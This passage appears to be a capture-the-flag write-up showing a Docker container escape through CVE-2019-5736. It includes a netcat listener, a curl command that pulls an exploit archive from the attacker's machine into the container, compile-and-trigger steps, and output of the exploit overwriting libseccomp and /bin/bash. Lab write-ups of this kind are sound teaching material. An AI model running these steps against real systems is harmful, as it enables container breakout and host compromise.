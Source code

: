 We set up a netcat llistener on our local machine: `nc -lnvp 4242`


The docker cleans itself pretty quickly, we need to deliver and execute our exploit fast
```bash
sudo docker exec -it webapp-dev01  curl http://10.10.14.150:8000/exploit.zip --output exploit.zip &&
sudo docker exec -it webapp-dev01 unzip exploit.zip &&
sudo docker exec -it webapp-dev01 ./CVE-2019-5736/make.sh &&
sudo docker exec -it webapp-dev01 /bin/bash 
```
In order these commands will:

- Deliver the exploit archive to the docker container from our local machine
- Unzip it
- Compile the exploit
- Trigger our payload
(Below if you want to hear more on the exploit and vulnerability) 

It's now time to execute it. 

Output:
```bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8413  100  8413    0     0   115k      0 --:--:-- --:--:-- --:--:--  117k
Archive:  exploit.zip
replace CVE-2019-5736/bad_init.sh? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
  inflating: CVE-2019-5736/bad_init.sh  
replace CVE-2019-5736/make.sh? [y]es, [n]o, [A]ll, [N]one, [r]ename: ^Cnoah@thenotebook:~$ ./file.sh 
OCI runtime state failed: fork/exec /usr/bin/docker-runc: text file busy: : unknown
noah@thenotebook:~$ ./file.sh 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8400  100  8400    0     0   102k      0 --:--:-- --:--:-- --:--:--  103k
Archive:  exploit.zip
   creating: CVE-2019-5736/
  inflating: CVE-2019-5736/bad_init.sh  
  inflating: CVE-2019-5736/make.sh   
  inflating: CVE-2019-5736/README.md  
  inflating: CVE-2019-5736/.README.md.swp  
  inflating: CVE-2019-5736/bad_libseccomp.c  
+++ dirname ./CVE-2019-5736/make.sh
++ readlink -f ./CVE-2019-5736
+ cd /opt/webapp/CVE-2019-5736
++ egrep 'libseccomp\.so'
++ sort -r
++ find /lib /lib64 /usr/lib
++ head -n1
+ SECCOMP_TARGET=/usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3
+ cp ./bad_libseccomp.c ./bad_libseccomp_gen.c
+ objdump -T /usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3
+ awk '($4 == ".text" && $6 == "Base") { print "void", $7 "() {}" }'
+ cp ./bad_init.sh /bad_init
+ gcc -Wall -Werror -fPIC -shared -rdynamic -o /usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3 ./bad_libseccomp_gen.c
+ mv /bin/bash /bin/good_bash
+ cat
+ chmod +x /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...

```